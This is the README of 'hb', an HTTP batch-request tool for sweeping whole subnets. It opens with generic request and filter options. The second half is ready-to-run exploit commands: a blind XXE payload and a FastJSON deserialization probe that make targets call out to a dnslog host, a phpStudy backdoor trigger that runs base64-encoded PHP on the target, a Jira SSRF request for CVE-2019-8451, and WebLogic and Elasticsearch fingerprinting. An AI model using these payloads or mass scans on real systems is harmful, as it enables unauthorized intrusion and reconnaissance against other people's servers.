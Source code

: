 # hb
> Fast http batch request tool 

## Example 

### Load File Target
```
./hb -f ips.txt -p 80
```

### Add HTTP Header
```bash
./hb -host 192.168.1.1/24 -H "Host: bypasscdn"
```

### Show ProgressBar
```bash
./hb -host 192.168.1.1/24 -pg
```

### Follow redirect (30x)
```bash
./hb -host 192.168.1.1/24 -redirect
```

### Filter Response Body
```bash
./hb -host 192.168.1.1/24 -grep "admin"
```

### Filter Response Header (X-Powered-By ContentType Title)
```bash
./hb -host 192.168.1.1/24 -filter "nginx"
```

### Filter Response Status Code
```bash
./hb -host 192.168.1.1/24 -code 2 # 2xx
```

### Show Resposne Body 
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -response
```

### Shuffle Request
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -random
```

### Send Post Request
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -body "a=1&b=2&c=2"

# post body from file
./hb -host 192.168.1.1/24 -p 80,443,8080 -bodyfile ./exploit
```

### Send PUT Request
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -method PUT
```

### Show Request Error
```
./hb -host 192.168.1.1/24 -p 80,443,8080 -debug 
```

---

### Elasticsearch
```bash
./hb -host 192.168.1.1/24 -p 9200 -path "/_cat" -grep "/_cat/allocation"
```

### PHPINF0
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -path /phpinfo.php -code 2 -grep 'PHP Version' -regexp 'PHP Version(.*?)<'
```

### XXE Blind
```bash
./hb -host 192.168.1.1/24 -p 80 -path /xxe.php -body '<?xml version="1.0"?><!DOCTYPE ANY [<!ENTITY remote SYSTEM "http://{{hostname}}.dnslog/">]><x>&remote;</x>' -replace
```

### FastJSON Blind
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -H "Content-Type: application/json" -body '{"@type": "java.net.InetAddress", "val":"{{hostname}}.dnslog"}' -replace -redirect
```

### Weblogic fingerprint
```bash
./hb -host 192.168.1.1/24 -host 192.168.1.1/24 -p 80,443,7001 -H "Authorization: Basic" -code 401
```

### phpStudy Backdoor
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -H "Accept-Charset: cGhwaW5mbygpOwo=" -H "Accept-Encoding: gzip,deflate" -grep 'PHP Version' -regexp '<tr><td class="e">disable_functions</td><td class="v">(.*?)</td>' -redirect
```

### CVE-2019-8451 Jira SSRF
```bash
./hb -host 192.168.1.1/24 -p 80,443,8080 -path "/plugins/servlet/gadgets/makeRequest?url={{scheme}}://{{host}}@baidu.com/" -H "X-Atlassian-Token: no-check" -replace -grep "www.baidu.com" -regexp '<meta name="ajs-version-number" content="(.*?)">' -redirect
```


